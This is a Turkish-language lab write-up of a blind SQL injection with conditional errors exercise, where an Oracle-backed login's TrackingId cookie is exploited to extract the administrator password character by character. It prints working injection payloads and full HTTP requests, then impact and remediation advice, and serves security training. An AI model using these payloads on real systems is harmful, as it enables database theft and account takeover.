





# Blind SQL injection with conditional errors

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için blind SQL injection yapılabiliyordu. Uygulama veritabanı çıktısını doğrudan response içinde göstermiyordu; ancak koşul doğru olduğunda bilinçli olarak SQL hatası tetiklenebiliyor ve response `500 Internal Server Error` olarak dönüyordu.

Amaç, conditional error tekniğini kullanarak `administrator` kullanıcısının parolasını karakter karakter tespit etmek ve hesaba giriş yapmaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değeri üzerinde SQL injection testi yaptım. Oracle veritabanında hata üretmek için `TO_CHAR(1/0)` kullandım.

```sql
'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Koşul doğru olduğu için SQL hatası oluştu ve response `500 Internal Server Error` döndü.



2. Aynı yapıyı yanlış koşulla test ettim:

```sql
'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Koşul yanlış olduğu için hata tetiklenmedi ve response `200 OK` döndü. Böylece hataya dayalı boolean farkı doğrulanmış oldu.



3. `administrator` kullanıcısının parola uzunluğunu tespit etmek için `LENGTH` fonksiyonunu kullandım:

```sql
'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Response `500 Internal Server Error` döndüğü için parolanın 20 karakter uzunluğunda olduğunu tespit ettim.



4. Parolanın karakterlerini tek tek bulmak için Oracle `SUBSTR` fonksiyonunu kullandım. Koşul doğru olduğunda `TO_CHAR(1/0)` ile hata tetikleniyor, yanlış olduğunda normal response dönüyordu.

```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

5. Burp Intruder ile parola pozisyonlarını ve olası karakterleri otomatik olarak denedim. `500` dönen response'lar doğru karakter eşleşmelerini gösterdi.



6. Intruder sonuçlarından `administrator` kullanıcısının parolasını çıkardım, bu parola ile hesaba giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- Conditional error farkını doğrulamak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; session=<session-id>
```

- Yanlış koşulda normal response döndüğünü doğrulamak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; session=<session-id>
```

- `administrator` kullanıcısının parola uzunluğunu tespit etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=<session-id>
```

- Parolanın belirli pozisyondaki karakterini test etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Oracle veritabanında `CASE WHEN` ve `TO_CHAR(1/0)` kullanarak koşullu hata üretilebildiğini doğruladım.
- Doğru koşullarda response `500 Internal Server Error`, yanlış koşullarda ise `200 OK` döndü.
- `LENGTH` ile `administrator` parolasının 20 karakter olduğunu tespit ettim.
- `SUBSTR` ve Burp Intruder kullanarak parolayı karakter karakter çıkardım.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın veritabanı çıktısını doğrudan göremediği durumlarda bile hata davranışlarını oracle olarak kullanarak hassas bilgileri çıkarmasına neden olabilir. Koşullu hata üretimiyle kullanıcı parolaları gibi kritik veriler karakter karakter elde edilebilir ve hesap devralma gerçekleştirilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Uygulama hata mesajlarını ve HTTP durum kodu farklılıklarını hassas bilgi sızdırmayacak şekilde yönet.
- Veritabanı kullanıcılarına minimum yetki ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
